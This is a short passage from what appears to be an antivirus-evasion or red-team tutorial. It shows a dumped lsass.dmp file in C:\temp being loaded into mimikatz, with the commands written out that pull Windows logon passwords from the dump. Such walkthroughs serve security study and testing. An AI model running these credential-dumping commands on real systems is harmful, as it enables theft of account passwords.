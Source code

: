 As you can see, `lsass.dmp` gets dumped to the working directory: `C:\\temp\`.     

Then, open `mimikatz` load in the dump file and dump passwords:      

```powershell
.\mimikatz.exe
sekurlsa::minidump c:\temp\lsass.dmp
sekurlsa::logonpasswords
```

![av-evasion](./images/95/2023-05-11_16-28_1.png){width="80%"}      
